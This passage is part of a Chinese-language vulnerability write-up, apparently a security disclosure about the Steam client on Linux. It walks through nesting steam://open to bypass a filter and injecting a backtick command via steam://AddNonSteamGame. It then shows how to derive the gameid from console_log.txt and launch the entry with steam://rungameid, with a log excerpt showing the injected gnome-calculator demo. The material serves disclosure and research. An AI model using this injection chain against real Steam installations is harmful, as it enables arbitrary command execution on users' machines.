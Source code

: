 经常尝试，我们发现可以通过再加一层`steam://open`来bypass：

<img src="assets/6.png" style="display: block; margin-left: auto; margin-right: auto; zoom: 50%;"/>

此时我们终于可以任意创建恶意游戏，但是打开游戏需要知道游戏的gameid，而我们并不知道这个随机生成的64位数字。这对于已经拥有任意文件读能力的我们并不是个大问题，我们通过读取`~/.local/share/Steam/logs/console_log.txt`，可以找到新创建出的恶意游戏的App id。

```go
[2023-11-21 04:11:53] ExecuteSteamURL: "steam://open/steam://AddNonSteamGame/%60gnome-calculator%60"
[2023-11-21 04:11:53] ExecuteSteamURL: "steam://AddNonSteamGame/%60gnome-calculator%60"
[2023-11-21 04:11:53] GLibLog: domain:Gtk  msg:gtk_disable_setlocale() must be called before gtk_init()
[2023-11-21 04:11:53] sanitize shortcut app id "`gnome-calculator`": replacing 0 with 3843969204, reason: k_unAppIdInvalid
```

最终的gameid可由log中的App id计算得来，计算方法为：`app_id << 32 | 0x2000000`。在知道了gameid之后，就可以使用`steam://rungameid`来启动它。

<img src="assets/7.png" style="display: block; margin-left: auto; margin-right: auto; zoom: 50%;"/>

完整的利用代码我们已公开在我们的[GitHub](https://github.com/DarkNavySecurity/PoC/tree/main/steam-2260570)。
